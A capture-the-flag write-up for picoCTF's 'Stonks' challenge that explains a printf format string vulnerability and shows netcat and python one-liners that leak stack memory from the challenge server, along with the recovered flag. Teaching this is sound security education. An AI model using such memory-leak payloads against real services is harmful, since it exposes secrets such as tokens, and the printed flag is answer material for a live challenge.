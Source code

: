 # Stonks

A vulnerable server is running on

```
nc mercury.picoctf.net 6989
```

and we have the source code available in the file `vuln.c`. Looking at this file we find the vulnerability in line `93`. What we have is a so called `format string vulnerability`, meaning the code receives user input (`scanf` in line `91`) and prints this input without specifying a format string. According to specification, printf is supposed to be called in the following way:

```
printf(const char *format_string, input)
```

The format string can be an arbitrary string, as can be seen in line `24`in vuln.c, but it may also contain format parameters which specify to the function the type of other inputs it is passed. This can be seen in line `35` which reads:

```
printf("%d shares of %s\n", head->shares, head->symbol);
```

The `%d` format parameter specifies to the function that it has to expect a double as its second input and the `%s` informs of a string as the third input.

In the vulnerable part of the code the user's input is passed to printf without specifying the format string, which essentially enables the user to pass a format parameter as an input. Most of these will cause the program to crash or do nothing, however one can also pass specific format parameters that will let the program regard the the adjacent bytes on the stack as its inputs and print them to the screen. An attempt to illustrate this can be seen in the below figure:

![](format_string.png)

this means that, if done correctly, the person exploiting the system can read from areas of memory they are not supposed to access as the user, in this case communicating with a server on the internet. For example executing the following command:

```
echo "1%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x" | nc mercury.picoctf.net 6989
```

will result in the following output:

```
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
Buying stonks with token:
09ee1470.0804b000.080489c3.f7fa9d80.ffffffff.00000001.09edf160.f7fb7110.f7fa9dc7.00000000
...
```
The one in the format string is necessary to select the `Buy some stonks!`-option and the following 10 `%08x`s tells printf to print whatever sits next to the format string within the memory of the remote server to be printed in zero-padded, eight digit hexadecimal format. Conveniently it is even possible to separate each block of 8 digits representing 4 bytes (as its in hex) by dots to work with it more easily.

From the code it is actually clear that we can input a format string of lenth 300, because this is he buffer size specified in the scanf function. we can use python to generate a payload that will extract as much memory as possible from the server and hope that our flag is somewhere in there. We can use the following command (which is also the content of the exploit.sh file) for construct the payload, pipe it into netcat, truncate it using grep and then pipe this turuncated output into a small python script that will locate the flag within the memory dump.

```
python3 -c "print('1::::'+56*'%08x.')" | nc mercury.picoctf.net 6989 | grep :::: | python3 print_flag.py
```
This will return the flag:
```
picoCTF{I_l05t_4ll_my_m0n3y_0a853e52}
```

## Resources

https://owasp.org/www-community/attacks/Format_string_attack  
https://cs155.stanford.edu/papers/formatstring-1.2.pdf
